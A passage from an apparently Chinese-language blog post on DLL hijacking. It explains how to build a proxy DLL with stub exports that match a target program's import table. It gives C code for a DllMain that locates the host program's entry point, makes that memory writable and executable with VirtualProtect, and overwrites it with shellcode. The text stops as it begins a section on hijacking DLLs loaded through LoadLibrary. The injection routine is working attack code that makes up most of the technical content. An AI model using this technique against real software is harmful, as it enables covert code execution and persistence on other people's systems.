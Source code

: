 ![](https://gitee.com/fuli009/images/raw/master/public/20211018123711.png)

根据它输入表dll的导出函数，我们自动生成一份对应的导出函数，导出函数不需要任何功能，只要函数名称和它对应上即可。

之后在dllmain里面获取主程序的入口点，然后将shellcode写入入口点，之后主程序运行就会执行我们的shellcode了。

C代码如下

    
          1. int WINAPI DllMain(HINSTANCE hInstance, DWORD fdwReason, PVOID pvReserved)
    
      2. {
    
      3.         switch (fdwReason)
    
      4.         {
    
      5.         case DLL_PROCESS_ATTACH:
    
      6.             hello_func();
    
      7.             break;
    
      8.         case DLL_PROCESS_DETACH:
    
      9.             break; 
    
      10.         }
    
      11.         return TRUE;
    
      12. }
    
      13. void hello_func()｛
    
      14.     DWORD baseAddress = (DWORD)GetModuleHandleA(NULL);
    
      15.     PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)baseAddress;
    
      16.     PIMAGE_NT_HEADERS32 ntHeader = (PIMAGE_NT_HEADERS32)(baseAddress + dosHeader->e_lfanew);
    
      17.     DWORD entryPoint = (DWORD)baseAddress + ntHeader->OptionalHeader.AddressOfEntryPoint;
    
      18.     DWORD old;
    
      19.     VirtualProtect(entryPoint, size, 0x40, &old);
    
      20.     for(int i=0;i<size;i++){
    
      21.         *((PBYTE)entryPoint+i) = shellcode[i];
    
      22.     }
    
      23.     VirtualProtect(entryPoint, size, old, &old);
    
      24. ｝
    
    
    

### Post-Load Dll劫持

dll在主程序导入表没有，而是程序通过 `LoadLibrary`动态调用的，我称这类dll为 `post-load`类型(我自己发明的词语)。

当程序使用 `LoadLibrary`进行加载的时候，它的调用堆栈类似以下
